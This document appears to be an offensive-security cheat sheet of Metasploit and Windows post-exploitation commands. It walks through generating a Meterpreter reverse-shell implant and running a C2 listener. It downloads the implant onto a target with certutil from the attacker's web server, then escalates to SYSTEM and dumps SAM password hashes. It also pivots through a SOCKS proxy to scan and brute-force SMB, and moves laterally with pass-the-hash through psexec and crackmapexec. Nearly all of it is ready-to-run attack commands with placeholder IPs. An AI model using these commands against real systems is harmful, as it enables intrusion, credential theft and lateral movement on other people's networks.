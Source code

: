 # stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***[OWN IP]*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***[OWN IP]***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***[OWN IP]***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***[NUMBER]***  
> set subnet ***[SUBNET]***  
> set netmask ***[NETMASK]***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***[TARGET IP]*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***[TARGET IP]***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*  
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***[TARGET IP]***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***[OWN IP]***  
> run
##### from bash
> crackmapexec smb ***[TARGET IP]*** -u "Administrator" -H 5835048ce94ad0564e29a924a03510ef --local-auth  


